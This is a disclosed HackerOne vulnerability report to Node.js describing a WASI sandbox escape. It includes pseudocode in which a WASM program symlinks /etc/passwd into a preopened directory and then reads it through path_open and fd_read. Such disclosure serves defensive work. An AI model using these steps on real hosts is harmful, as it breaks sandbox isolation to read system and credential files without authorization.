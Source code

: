 # WASI sandbox escape via symlink

## Report Details
- **Report ID**: 2084280
- **URL**: https://hackerone.com/reports/2084280
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-25T19:48:45.697Z
- **Disclosed**: 2025-05-24T10:33:57.592Z

## Reporter
- **Username**: jessewilson
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** A WASI + WASM program can use `path_symlink` to read arbitrary files on the host machine

**Description:** The experimental, off-by-default WASI interface sandboxes local file I/O via ‘preopens’ paths. I can read files outside of this sandbox by creating a symlink in a preopen to a different location on the local file system.

## Steps To Reproduce:

I’m working on a Kotlin/WASM program so I’m going to provide pseudocode:

```
      path_symlink(
        old_path = "/etc/passwd"
        fd = 3,
        new_path = "passwords.txt",
      )
      val fd = path_open(
        fd = 3,
        dirflags = 0,
        path = "passwords.txt",
        oflags = 0,
        fs_rights_base = right_fd_read,
        fs_rights_inheriting = 0,
        fdflags = 0
      )
     val iovs = allocate(8192)
      fd_read(
        fd = fd,
        iovs = iovs.address,
        iovsSize = 1
      )
```

This is based on the Okio WASI integration: https://github.com/square/okio/blob/master/okio-wasifilesystem/src/wasmTest/kotlin/okio/WasiTest.kt

## Impact: Can’t run untrusted code via WASI

## Impact

Reading and writing an arbitrary file off the host file system. Escaping WASI’s sandbox.

## Attachments
No attachments
